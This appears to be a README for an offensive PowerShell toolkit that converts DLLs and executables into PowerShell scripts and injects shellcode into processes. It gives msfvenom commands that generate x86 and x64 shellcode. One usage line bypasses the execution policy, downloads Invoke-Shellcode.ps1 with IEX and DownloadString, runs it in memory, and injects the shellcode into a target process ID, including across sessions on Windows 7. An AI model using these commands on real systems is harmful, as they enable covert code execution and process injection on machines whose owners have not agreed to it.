 # PowershellTools

## dll2ps.ps1 (Support DllRegisterServer)
    powershell.exe -ep bypass -f dll2ps.ps1 -File test.dll -Out out.ps1
  
## exe2ps.ps1
    powershell.exe -ep bypass -f exe2ps.ps1 -File test.exe -Param "hello world" -Out out.ps1

## inject.ps1 (Support win7 cross session injection)
    Generate shellcode
    x86：msfvenom -a x86 --platform windows -p windows/exec CMD="cmd /c c:\windows\notepad.exe" exitfunc=thread -f powershell | cut -c 9- | tr  -s '\r\n' ',' | cut -c 9- | sed 's/^/@(/g' | sed -e 's/\(.*\),/\1)/'
	x64：msfvenom -a x86_64 --platform windows -p windows/x64/exec CMD="cmd /c c:\windows\notepad.exe" exitfunc=thread -f powershell | cut -c 9- | tr  -s '\r\n' ',' | cut -c 9- | sed 's/^/@(/g' | sed -e 's/\(.*\),/\1)/'
    Usage
	powershell.exe -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-Shellcode.ps1'); Invoke-Shellcode -Shellcode @(...) -ProcessID pid -Verbose"
	powershell.exe -ep bypass -c "&{. C:\Invoke-Shellcode.ps1; Invoke-Shellcode -Shellcode @(...) -ProcessID pid -Verbose}"
